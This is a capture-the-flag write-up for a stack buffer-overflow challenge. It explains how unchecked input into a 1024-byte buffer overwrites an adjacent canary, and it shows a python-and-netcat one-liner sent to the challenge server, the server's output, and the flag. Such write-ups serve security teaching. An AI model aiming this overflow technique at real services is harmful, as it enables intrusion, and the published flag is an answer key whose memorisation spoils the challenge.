

overflow
========

Flag: **the_90s_called_they_want_their_overflow_back**

The challenge flavortext says:

> Smashing the stack for fun and profit:

> * [source](overflow_redacted.c "source")
> * [binary (x86)](overflow_redacted "binary (x86)")

> To solve the challenge, connect to:
> telnet ctf.stratum0.net 5555
> (or netcat on Linux)

Examining the source code, we see that user input is copied into the 1024 `char`
array `buf` without a bounds check on the input. Additionally, `data` is just
above `buf` on the stack and functions as a canary; if the value of `data` is
changed from `0xdeadbeef`, the flag is revealed.

After crafting our input to overflow `buf` and part of `data`, we are given the
flag:

    $ python -c "print 'A'*1024" | nc ctf.stratum0.net 5555
    What's your name? Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    How did this happen? Here is your flag: "flag{the_90s_called_they_want_their_overflow_back}"

Because `python`'s `print` adds a newline character, `print 'A'*1024`
actually gives us 1025 characters, which is sufficient to overflow `buf` and
one byte of `data`.

The flag is thus `the_90s_called_they_want_their_overflow_back`.
